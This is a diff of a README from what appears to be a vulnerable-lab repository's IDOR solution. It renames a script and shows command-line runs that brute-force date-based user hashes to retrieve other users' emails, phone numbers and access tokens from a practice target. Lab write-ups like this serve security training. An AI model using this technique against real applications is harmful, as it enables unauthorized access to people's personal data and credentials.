

Before and after one commit to 0xPThree/vuln-labs, a Markdown page: solutions/idor/README.md, the part around the change. GitHub-like rendering.

````diff
--- a/solutions/idor/README.md
+++ b/solutions/idor/README.md
@@ -26,7 +26,7 @@ With three known names (four with our own user) we can build a script to generat
 
 ```bash
 » python3 genHashes.py --help
-usage: genHashes.py [-h] -e EMAIL -p PASSWORD -n NAME -y YEAR [-v]
+usage: bruteHashes.py [-h] -e EMAIL -p PASSWORD -n NAME -y YEAR [-v]
 
 Brute-force user hash generation.
 
@@ -39,19 +39,19 @@ options:
   -y, --year YEAR       Year to generate hashes for (e.g. 2025).
   -v, --verbose         Enable verbose output.
 
-» python3 genHashes.py -e "three@exploit.se" -p "Passw0rd\!" -n "Alan Turing" -y 2025
+» python3 bruteHashes.py -e "three@exploit.se" -p "Passw0rd\!" -n "Alan Turing" -y 2025
 [+] Logged in successfully!
 [*] Brute-forcing hashes for Alan Turing for the year 2025...
 [+] User request successful!
 Response: {'first_name': 'Alan', 'last_name': 'Turing', 'email': 'alanT1912@gmail.com', 'phone_number': '+01233210456654789987', 'access_token': 'TUR1NG_SUP3R_S3CR37_4CC355_70K3N'}
 
-» python3 genHashes.py -e "three@exploit.se" -p "Passw0rd\!" -n "Blaise Pascal" -y 2024
+» python3 bruteHashes.py -e "three@exploit.se" -p "Passw0rd\!" -n "Blaise Pascal" -y 2024
 [+] Logged in successfully!
 [*] Brute-forcing hashes for Blaise Pascal for the year 2024...
 [+] User request successful!
 Response: {'first_name': 'Blaise', 'last_name': 'Pascal', 'email': 'theRealPascal@gmail.com', 'phone_number': '+99887766554433221100', 'access_token': 'P4SC4L_SUP3R_S3CR37_4CC355_70K3N'}
 
-» python3 genHashes.py -e "three@exploit.se" -p "Passw0rd\!" -n "Leonhard Euler" -y 2023 -v
+» python3 bruteHashes.py -e "three@exploit.se" -p "Passw0rd\!" -n "Leonhard Euler" -y 2023 -v
 [+] Logged in successfully!
 [*] Brute-forcing hashes for Leonhard Euler for the year 2023...
 [!] Testing date 01012023 → 25ec3f75d449d2ad704b11f7baddf4b2b89f52f58e30c055cf79d9818589eab4
````
